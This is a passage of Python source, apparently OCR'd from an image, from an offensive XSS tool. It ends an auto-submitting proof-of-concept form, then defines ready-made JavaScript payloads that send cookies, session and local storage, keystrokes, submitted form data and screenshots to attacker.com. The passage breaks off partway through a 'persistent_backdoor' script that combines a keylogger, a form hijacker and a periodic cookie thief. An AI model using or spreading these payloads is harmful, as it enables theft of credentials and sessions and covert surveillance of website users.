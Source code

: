 ```python
    
    <script>
        // Automatic form submission
        document.addEventListener('DOMContentLoaded', function() {{
            setTimeout(function() {{
                document.getElementById('xssForm').submit();
            }}, 1000);
        }});
    </script>
</body>
</html>
'''
        
        return poc_html
    
    def advanced_xss_exploitation(self, vulnerability_info):
        """Advanced XSS exploitation techniques"""
        exploitation_payloads = {
            'cookie_theft': f'<script>fetch("http://attacker.com/steal?cookie="+document.cookie)</script>',
            'session_hijacking': f'<script>fetch("http://attacker.com/session",{{method:"POST",body:JSON.stringify({{cookie:document.cookie,url:location.href,localStorage:localStorage,sessionStorage:sessionStorage}})}});</script>',
            'keylogger': f'<script>document.addEventListener("keypress",function(e){{fetch("http://attacker.com/keys?key="+e.key+"&url="+location.href);}});</script>',
            'form_hijacking': f'<script>document.addEventListener("submit",function(e){{var formData=new FormData(e.target);var data={{}};for(var pair of formData.entries()){{data[pair[0]]=pair[1];}}fetch("http://attacker.com/forms",{{method:"POST",body:JSON.stringify(data)}});}});</script>',
            'screenshot_capture': f'<script>html2canvas(document.body).then(function(canvas){{fetch("http://attacker.com/screenshot",{{method:"POST",body:canvas.toDataURL()}});}});</script>',
            'persistent_backdoor': f'''<script>
(function(){{
    var backdoor = {{
        init: function() {{
            this.setupKeylogger();
            this.setupFormHijacker();
            this.setupCookieThief();
            this.heartbeat();
        }},
        setupKeylogger: function() {{
            var keys = "";
            document.addEventListener("keypress", function(e) {{
                keys += String.fromCharCode(e.which);
                if (keys.length > 100) {{
                    backdoor.sendData("keylog", btoa(keys));
                    keys = "";
                }}
            }});
        }},
        setupFormHijacker: function() {{
            document.addEventListener("submit", function(e) {{
                var formData = new FormData(e.target);
                var data = {{}};
                for (var pair of formData.entries()) {{
                    data[pair[0]] = pair[1];
                }}
                backdoor.sendData("form", JSON.stringify(data));
            }});
        }},
        setupCookieThief: function() {{
            setInterval(function() {{
                backdoor.sendData("cookie", document.cookie);
            }}, 30000);
```